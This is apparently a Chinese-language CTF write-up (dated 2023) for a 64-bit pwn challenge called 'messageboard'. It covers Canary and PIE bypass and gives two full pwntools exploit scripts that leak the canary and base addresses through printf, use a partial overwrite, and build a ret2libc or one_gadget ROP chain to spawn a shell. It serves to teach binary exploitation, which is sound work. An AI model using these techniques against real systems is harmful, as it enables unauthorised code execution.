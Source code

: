 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      messageboard writeup				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-10-23 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-22.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 教程
    - CTF
    - PWN
    - 格式化字符串漏洞
---
```




### messageboard

### 考点

- Canary绕过原理
- PIE绕过原理
- 对gdb调试器的使用

### 解题过程

- 使用`checksec`进行检查：
![checksec](/img/posts/2023-10-23-messageboard/images/checksec.png)

![file](/img/posts/2023-10-23-messageboard/images/file.png)

​		可知程序为64位，有DEP、ASLR、Canary、PIE等保护。`Canary`是一种栈溢出保护手段，会在栈中压入随机值，如果进行栈溢出攻击，会导致随机值改变，导致验证失败，从而程序不会执行。`PIE(position-independent executable, 地址无关可执行文件)`技术就是一个针对代码段.text, 数据段.*data，.bss等固定地址的一个防护技术。同ASLR一样，应用了PIE的程序会在每次加载时都变换加载基址，从而使位于程序本身的gadget也失效。

- 使用`ldd`命令查看程序的依赖库libc和ld：

![ldd](/img/posts/2023-10-23-messageboard/images/ldd.png)

​		使用`patchelf`进行修改：

```shell
patchelf --replace-needed libc.so.6 ./libc-2.31.so ./message_board
```

```shell
patchelf --set-interpreter ~/Documents/tools/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/ld-2.31.so ./message_board
```

![ldd-1](/img/posts/2023-10-23-messageboard/images/ldd-1.png)

- 构造python脚本，进行调试，查看程序vmmap以及stack的情况：

`vmmap`：后3位均为0，前几位每次调试都会发生变化

![vmmap](/img/posts/2023-10-23-messageboard/images/vmmap.png)

![vmmap-1](/img/posts/2023-10-23-messageboard/images/vmmap-1.png)

`stack`：其中有随机值`"0x7e9818f231b8c000"`和`"0xf0297d8f04ed1000"`

![stack](/img/posts/2023-10-23-messageboard/images/stack.png)

![stack-1](/img/posts/2023-10-23-messageboard/images/stack-1.png)

- 使用ida工具打开程序，逆向分析，在`sub_11C9`函数位置有`getchar`函数，只有输入回车符时才会结束输入，存在栈溢出漏洞：

![sub_11C9](/img/posts/2023-10-23-messageboard/images/sub_11C9.png)

- 由于`sub_11FF`函数中的`printf`函数`%s`参数仅在字符串结尾为`\x00`字符时才会停止输出，因此可以尝试在此处泄漏`canary`和`libc`的地址。

![sub_11FF](/img/posts/2023-10-23-messageboard/images/sub_11FF.png)

- 构造脚本，主要思路（五次栈溢出）：首先通过printf函数的输出特性泄漏`Canary`值，然后在第二次调用`sub_11C9`函数时，通过覆盖部分地址使程序本应执行到`0x1310`转而执行`0x130b`（通过覆盖最后一字节实现），如下图所示：

![partial write](/img/posts/2023-10-23-messageboard/images/partial write.png)

​		然后程序重新进入漏洞函数，通过栈溢出覆盖截断字符`\x00`使`printf`函数输出程序基址。如下图所示，通过计算偏移可以得到程序基址：

![程序基址](/img/posts/2023-10-23-messageboard/images/程序基址.png)

​		然后继续到第二个`sub_11c9`函数，根据`got`表获取到libc基址，最后根据libc基址以及`one_gadget`工具可以得到结果shell：

`python脚本如下`:

```python
from pwn import *

p = process('./message_board')

# 获取canary
payload = flat(b'a'*(0x20+8+1))
gdb.attach(p, 'b *$rebase(0x11FD)')
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)
puts_canary_libc = p.recv(7)

canary = u64(puts_canary_libc.rjust(8, b'\x00'))
success(hex(canary))


# Parital Write， 重新跳转到漏洞函数
main_addr_offset = b'\x0B'
p.recvuntil(b'What do you want to say?\n')

payload = flat(b'b'*(0x20+8), p64(canary), p64(0), main_addr_offset)
p.sendline(payload)

# 获取程序基址
payload = flat(b'c'*(0x20+8+8+8))
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)
mov_eax_addr = u64(p.recv(6).ljust(8, b'\x00'))
base_addr = mov_eax_addr - 0x1310

success(hex(base_addr))

# 获取libc基址
pop_rdi = base_addr + 0x1383
retn = base_addr + 0x12A8
elf = ELF('./message_board')
puts_plt = elf.plt['puts'] + base_addr
puts_got = elf.got['puts'] + base_addr

libc = ELF('./libc-2.31.so')
libc_puts_offset = libc.symbols['puts']  # 0x84420
libc_system_offset = libc.symbols['system']  # 0x52290
sub_11ff_addr = base_addr + 0x130B
payload = flat(b'd'*(0x20+8), p64(canary), p64(0), p64(retn), p64(pop_rdi), p64(puts_got), p64(puts_plt), p64(sub_11ff_addr))
p.sendlineafter(b'What do you want to say?\n', payload)
p.recvuntil(b"Thanks!\n")
puts_libc = p.recv(6)
puts_libc = u64(puts_libc.ljust(8, b'\x00'))
libc_base = puts_libc - libc_puts_offset
success(hex(libc_base))

# # one_gadget
# one_gadget = libc_base + 0xe3b01
# payload = flat(b'e'*(0x20+8), p64(canary), p64(0x0), p64(one_gadget))
# gdb.attach(p, 'b *$rebase(0x11FD)')
# p.sendlineafter(b"What 's your name?\n", payload)

# system函数
bin_sh_addr = libc_base + 0x1b45bd
system_addr = libc_base + libc_system_offset
payload = flat(b'f'*(0x20+8), p64(canary), p64(0), p64(retn), p64(pop_rdi), p64(bin_sh_addr), p64(system_addr))
p.sendlineafter(b"What 's your name?\n", payload)
p.sendlineafter(b'What do you want to say?\n', b'FFF')
# p.recvuntil(b"Thanks!\n")

p.interactive()
```

注：需要注意在进行代码的注入时，需要考虑栈帧对齐的问题，eg: `payload = flat(b'f'*(0x20+8), p64(canary), p64(0), p64(pop_rdi), p64(bin_sh_addr)`中`p64(0)`为赋给`rbp`寄存器的值，`p64(retn)`为将`pop rdi`进行栈对齐所需添加的占位值。

- 构造脚本，主要思路（四次栈溢出）：前两次栈溢出与前一种情况相同；

​		然后程序会再次执行漏洞函数，通过栈溢出覆盖截断字符`\x00`使得`printf`函数输出libc的基址。如下图所示，通过计算偏移可以得到libc的基址

![libc_base](/img/posts/2023-10-23-messageboard/images/libc_base.png)

​		然后继续到第二个`sub_11c9`函数，根据libc基址以及`one_gadget`工具可以得到结果shell：

`python脚本如下`:

```python
from pwn import *

p = process('./message_board')

# 获取canary
payload = flat(b'a'*(0x20+8+1))
gdb.attach(p, 'b *$rebase(0x11FD)')
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)
puts_canary_libc = p.recv(7)

canary = u64(puts_canary_libc.rjust(8, b'\x00'))
success(hex(canary))


# Parital Write， 重新跳转到漏洞函数
main_addr_offset = b'\x0B'
p.recvuntil(b'What do you want to say?\n')

payload = flat(b'b'*(0x20+8), p64(canary), p64(0), main_addr_offset)
p.sendline(payload)

# 获取libc基址
libc = ELF('./libc-2.31.so')
payload = flat(b'c'*(0x20+8+8+8+16))
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)

mov_edi_addr = p.recv(6)
print(mov_edi_addr)
mov_edi_addr = u64(mov_edi_addr.ljust(8, b'\x00'))
print(hex(mov_edi_addr))
libc_base = mov_edi_addr - 0x24083

success(hex(libc_base))

one_gadget = libc_base + 0xe3b01

payload = flat(b'e'*(0x20+8), p64(canary), p64(0x0), p64(one_gadget))
p.sendlineafter(b'What do you want to say?\n', payload)



p.interactive()
```



### 结果

![result](/img/posts/2023-10-23-messageboard/images/result.png)
